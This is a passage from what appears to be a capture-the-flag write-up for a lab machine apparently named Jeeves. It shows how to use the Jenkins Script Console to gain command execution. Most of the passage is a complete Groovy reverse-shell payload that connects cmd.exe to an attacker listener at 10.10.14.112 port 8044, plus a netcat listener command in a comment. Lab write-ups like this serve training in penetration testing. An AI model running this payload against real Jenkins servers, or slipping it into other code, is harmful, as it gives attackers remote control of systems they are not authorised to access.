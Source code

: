<img src="/assets/img/jeeves/Untitled 4.png" alt="Untitled 4.png" style="width:800px;">

If allowed, we could try to execute commands on ‘Manage Jenkins’ > ‘Script Console’.

<img src="/assets/img/jeeves/Untitled 5.png" alt="Untitled 5.png" style="width:800px;">

I will be using the following reverse shell payload.

```groovy
// nc -nlvp 8044
String host="10.10.14.112";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
